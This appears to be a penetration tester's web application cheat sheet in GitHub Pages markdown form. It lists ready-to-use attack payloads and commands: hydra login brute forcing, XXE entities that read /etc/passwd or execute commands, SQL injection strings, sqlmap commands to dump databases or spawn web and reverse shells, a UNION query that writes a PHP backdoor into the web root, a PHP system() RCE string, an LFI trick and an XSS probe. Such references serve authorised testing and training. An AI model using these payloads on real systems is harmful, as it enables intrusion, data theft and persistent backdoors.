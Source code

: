 ```yaml
---
layout: page
title: Web App
permalink: /web/
---
```


# Index

* [Authentication](#authentication)
* [Session Management](#session-management)
* [XML External Entity](#xml-external-entity)
* [SQL Injection](#sql-injection)
* [PHP Injection](#php-injection)
* [Cross Site Scripting](#cross-site-scripting)
* [Deserialization](#deserialization)
* [Other Tools](#other-tools)
* [Methodology](#methodology)

## Authentication

### Brute Forcing Online

`hydra`

For example attacking a web login form

`hydra 192.168.1.69 http-form-post "form_login.php:user=^USER^&pass=^PASS^:Bad login" -L users.txt -P pass.txt -o hydra-http-post-attack.txt`

---

## Session Management

---

## XML External Entity

Local file inclusion

```XML
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<creds>
    <user>&xxe;</user>
    <pass>mypass</pass>
</creds>
```

Remote code exectuion

```XML
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "expect://id" >]>
<creds>
    <user>&xxe;</user>
    <pass>mypass</pass>
</creds>
```
Above is just proof of concept, other functions exist.

---

## SQL Injection

Suppose a SQL query like below, where parameters are received from user input

```SQL
SELECT id FROM users WHERE username='$username' AND password='$password';
```

If we managed to input data like below we could return unintended data.

```SQL
SELECT username FROM users WHERE username='' or '1'='1' AND password='' or '1'='1'
```

We can also save a request in burp and feed it into `sqlmap` or fuzz with `sqlmap` directly.

```
sqlmap
# sqlmap crawl  
sqlmap -u http://10.10.10.10 --crawl=1

# sqlmap dump sql database from saved request
sqlmap -r login.req --dbms=mysql --dump

# sqlmap web shell  
sqlmap -r login.req --os-shell

# sqlmap reverse shell
sqlmap -r login.req --os-pwn

SQL Injection Writing a file

```SQL
union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUTFILE 'c:/inetpub/wwwroot/backdoor.php'
```

SQL Injection Reading a File

```SQL
union all select 1,2,3,4,load_file("c:/windows/system32/drivers/etc/hosts"),6
```

SQL Fuzzing Strings

```SQL
' or 1=1 LIMIT 1 --
' or 1=1 LIMIT 1 -- -
' or 1=1 LIMIT 1#
'or 1#
' or 1=1 --
' or 1=1 -- -
```
---

## PHP Injection

If we can inject the below string anywhere interpreted as php we get RCE.

`<?php system($_GET['cmd']); ?>`

If there is LFI the below might work

`site.php?lfi_path=php://input%00`

Other things to try https://websec.wordpress.com/2010/02/22/exploiting-php-file-inclusion-overview/

---

## Cross Site Scripting

Wherever user input is reflect in the site test for XSS with:

``` Javascript
    <script>alert('x')</script>
```

---

## Deserialization

---

## Other Tools

* w3af - Web Application Scanner
* wpscan - Scan wordpress
* droopscan - scan Drupal & Silverstripe CMS
* cewl - Scraping for strings

## Methodology

See:
* The Web Application Hacker's Handbook - Chapter 21
* https://jdow.io/blog/2018/03/18/web-application-penetration-testing-methodology/
